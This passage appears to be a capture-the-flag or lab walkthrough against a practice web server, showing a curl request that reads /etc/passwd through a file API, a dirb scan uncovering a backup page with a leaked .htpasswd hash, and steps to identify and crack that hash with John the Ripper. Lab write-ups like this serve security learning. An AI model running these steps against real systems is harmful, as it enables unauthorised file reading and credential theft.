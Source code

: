 ```txt
<head>
  <title>franks website | simple website browser API</title>
</head>

<b>********* HACKER DETECTED *********</b><p>YOUR IP IS : 192.168.2.236</p><p>WRONG INPUT !!</p>%
```

Rememder into the result of nmap, the server use POST,OPTIONS,GET,HEAD, try a POST request:

    $ curl -X POST -d file=/etc/passwd http://192.168.2.180:8011/api/files_api.php

Nice, we see an username `frank` and the path of web site `/var/www` but nothing other interesting thing for the moment.

Like the main site is in development, it contain probably many temporary files, let's check with dirb.

    $ dirb http://192.168.2.180 /usr/share/dict/dirb-wordlists/vulns/cgis.txt

```txt
---- Scanning URL: http://192.168.2.180/ ----
+ http://192.168.2.180/index.html.bak (CODE:200|SIZE:334)
- - -
+ http://192.168.2.180/development/ (CODE:401|SIZE:480)
```

The file `http://192.168.2.180/index.html.bak` is nice

```txt
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
<a href="/development">development</a>
<!-- I will use frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0 as the .htpasswd file to protect the development path -->
</body></html>
```

And `/development` will serve too soon. Just to be sure, we can look if `$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0` is a hash or a true password:  

    $ hash-identifier 
    $apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0
    
```txt
Possible Hashs:
[+] MD5(APR)
```
So, we have to crack this hash, we'll use `john`. Create a file name `hash` with user and hash above:

    $ vim hash
    frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0

Save and quit.

    $ /usr/sbin/john hash
